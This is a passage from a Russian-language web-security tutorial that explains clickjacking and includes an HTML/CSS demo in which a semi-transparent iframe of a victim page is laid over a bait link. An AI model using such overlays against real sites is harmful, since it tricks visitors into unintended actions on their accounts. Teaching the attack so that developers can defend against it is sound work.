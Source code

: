 # Атака Clickjacking и защита от неё

Атака "кликджекинг" (англ. Clickjacking) позволяет хакеру выполнить клик на сайте-жертве *от имени посетителя*. 

В русском языке встречается дословный перевод термина clickjacking: "угон клика". Так же применительно к clickjacking-атаке можно встретить термины "перекрытие iframe" и "подмена пользовательского интерфейса".

Кликджекингу подверглись в своё время Twitter, Facebook , PayPal, YouTube и многие другие сайты. Сейчас, конечно, они уже защищены.
[cut]
## Идея атаки

В целом идея очень проста.

Вот как выглядит «угон клика» пользователя, который зарегистрирован на  facebook:

<ol>
<li>На вредоносной странице пользователю подсовывается безобидная ссылка
(скажем, что-то скачать, «разбогатеть сейчас», посмотреть ролик или просто перейти по ссылке на интересный ресурс).</li>
<li>Поверх этой заманчивой ссылки помещен прозрачный iframe со страницей facebook.com, так что кнопка "Like" находится чётко над ней.

Кликая на ссылку, посетитель на самом деле нажимает на эту кнопку.
</li>
</ol>

## Пример

Вот пример (для наглядности `iframe` -- полупрозрачный):

```html
<!--+ run height=120 -->
<style>
iframe { /* iframe с сайта-жертвы */
  width: 300px;
  height: 100px;
  position: absolute;
  top:0; left:-20px;
  filter: alpha(opacity=50); /* в рельности будет opacity=50 */
  opacity: 0.5;
  z-index: 1;
}
</style>
 
<div>Нажмите, чтобы разбогатеть сейчас:</div>
     
<!-- URL в реальности - с другого домена (атакуемого сайта) -->
<iframe src="https://js.cx/clickjacking/facebook.html"></iframe>
 
<a href="http://google.com">Нажми тут!</a>
 
<div>..И всё получится (хе-хе, у меня, злого хакера, получится)!</div>
```
